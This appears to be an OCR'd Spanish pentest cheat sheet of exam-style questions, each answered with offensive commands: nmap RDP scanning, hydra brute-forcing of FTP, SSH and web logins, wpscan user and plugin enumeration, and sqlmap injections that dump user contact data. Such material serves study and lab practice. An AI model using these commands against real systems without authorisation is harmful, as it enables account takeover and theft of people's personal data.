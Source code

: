 ```
nmap -p 3389 192.168.1.0/24 --open

text

---

## 🔐 Ataques de Contraseña

### **¿Cuál es la contraseña del usuario X del servidor FTP?**
hydra -l usuario -P wordlist.txt ftp://192.168.1.100
msfconsole
use auxiliary/scanner/ftp/ftp_login

text

### **Usar Hydra para crackear contraseña**
hydra -l admin -P rockyou.txt ssh://192.168.1.100
hydra -L users.txt -P passwords.txt http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

text

### **¿Qué usuario es válido usando fuerza bruta?**
hydra -L userlist.txt -p password123 ssh://target
wpscan --url http://target --enumerate u

text

---

## 🌐 Web Application Testing

### **¿Qué plugins tiene la página web (WordPress)?**
wpscan --url http://example.com --enumerate p
wpscan --url http://example.com --enumerate vp # vulnerables

text

### **¿Qué usuarios tiene la página web (WordPress)?**
wpscan --url http://example.com --enumerate u
wpscan --url http://example.com --enumerate u --passwords wordlist.txt

text

### **¿Qué base de datos tiene la página?**
sqlmap -u "http://example.com/page.php?id=1" --dbs

text

### **¿Qué tablas/columnas tiene la base de datos?**
sqlmap -u "URL" -D database_name --tables
sqlmap -u "URL" -D database_name -T table_name --columns

text

### **Encontrar detalles de contacto de Jenny**
sqlmap -u "URL" -D database -T users --dump
sqlmap -u "URL" -D database -T users -C name,phone,email --dump

text

---

## 📦 Análisis de Archivos y Esteganografía
```